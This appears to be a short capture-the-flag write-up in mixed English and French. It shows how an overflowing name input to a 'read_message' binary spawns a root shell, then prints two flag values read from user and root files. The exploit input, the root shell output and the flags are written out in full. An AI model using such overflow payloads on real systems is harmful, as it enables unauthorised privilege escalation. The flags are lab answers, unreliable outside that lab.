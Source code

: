 Check binary :
````bash
ls /usr/local/bin/
````

Return :
````
read_message
````

Buffer overflow :
````bash
read_message
What is your name?
Simonaaaaaaaaaaaaaaa/bin/sh
Hello Simonaaaaaaaaaaaaaaa/bin/sh! Here is your message:

# whoami
root
`````

It's simple in **read_message.c** we have a buffer with a size of 20 char.
The binary check if i am Simon so Simon == 5 char
And after I had 15 a == aaaaaaaaaaaaaaa

So 5 + 15 = 20
The buffer is full
And after I execute /bin/sh
And I am root ! :D

## 4 Flags :
Premier flag :
````bash
cat /home/simon/local.txt
029bd61ed41afc4f7a1dfda333e692ae
````

Deuxième flag :
````bash
cat /root/proof.txt
75436a3506be41eca010830b8c73d52c
````